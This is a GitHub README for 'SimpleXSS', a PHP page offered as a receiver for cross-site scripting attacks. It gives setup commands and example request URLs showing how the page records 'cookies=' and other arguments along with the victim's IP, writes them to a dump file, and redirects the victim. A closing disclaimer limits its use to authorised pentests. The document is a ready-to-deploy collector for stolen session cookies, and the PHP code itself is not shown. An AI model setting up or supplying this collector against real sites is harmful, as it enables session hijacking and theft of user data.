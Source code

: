# Simple XSS [![License](https://img.shields.io/badge/license-GPLv3-red.svg)](https://github.com/bambish/ScanQLi/blob/master/LICENSE.md) [![Twitter](https://img.shields.io/badge/twitter-@bambishee-blue.svg)](https://twitter.com/bambishee)

Simple index.php page to perform XSS attack.

### Features
* Record each URL args
* Record client IP
* Instant redirection (static or dynamic)

### Prerequisites
* Web server (apache2, nginx, ...)
* PHP

### Installing
**1.** Get the sources
```bash
git clone https://github.com/bambish/SimpleXSS
```

**2.** Move index.php in the web server root dir.
```bash
mv SimpleXSS/index.php /var/www/html
```

### Usage
- Basic usage: **cookies=**12345&**arg=**67890
```http
http://127.0.0.1/index.php?cookies=12345&arg=67890
```
You can use every `arbitrary args name`

- Dynamic redirection: **redirect=**http://arbitrarywebsite.com/
```http
http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&redirect=http://github.com/
```
You can `change or disable` the `default redirection` by editing or comment `$staticredirection` var in `index.php`
You can force the static redirection if you set `$allowgetredirection` to false in index.php

- Write in specific dump file: **dumpfile=**arbitraryfile.txt
```http
http://127.0.0.1/index.php?cookies=12345&arbitraryarg=67890&dumpfile=arbitraryfile.txt
```
Be shure your `web server` have the right `access to create and edit` files at the root dir
The default dump file is `dumpfile.txt`

### Warning
This XSS template was created to perform pentest or others legal stuffs (like bug bounty).
Using this XSS template against web site **without authorization** is **forbidden**. 

I'm not responsible of your usage of this XSS template.
**At your own risk**.